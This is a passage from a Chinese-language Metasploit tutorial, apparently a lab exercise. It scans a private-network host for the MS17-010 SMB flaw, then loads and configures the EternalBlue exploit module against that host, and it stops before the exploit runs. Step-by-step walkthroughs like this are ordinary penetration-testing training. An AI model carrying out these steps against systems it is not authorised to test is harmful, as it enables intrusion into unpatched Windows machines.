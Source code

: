 **（4）配置PHOSTS的IP**

```powershell
msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.2.173
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320231.png)

**（5）检查所有选项是否配置完成**

```powershell
msf5 auxiliary(scanner/smb/smb_ms17_010) > show options
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320935.webp)

**（6）开始扫描**

```powershell
msf5 auxiliary(scanner/smb/smb_ms17_010) > run
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320939.webp)

显示“Host is likely VULNERABLE to MS17-010!（主机可能易受MS17-010攻击!） ”则表示该主机存在该漏洞。


**（7）返回，重新查找我们需要的攻击模块**

```powershell
msf5 auxiliary(scanner/smb/smb_ms17_010) > back
```
```powershell
msf5 > search ms17-010
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320993.webp)

**（8）同理使用模块，展示需要配置的参数**

```powershell
msf5 > use exploit/windows/smb/ms17_010_eternalblue
```
```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320971.webp)

**（9）配置参数，检查参数**

```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.2.173
```
```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320966.webp)
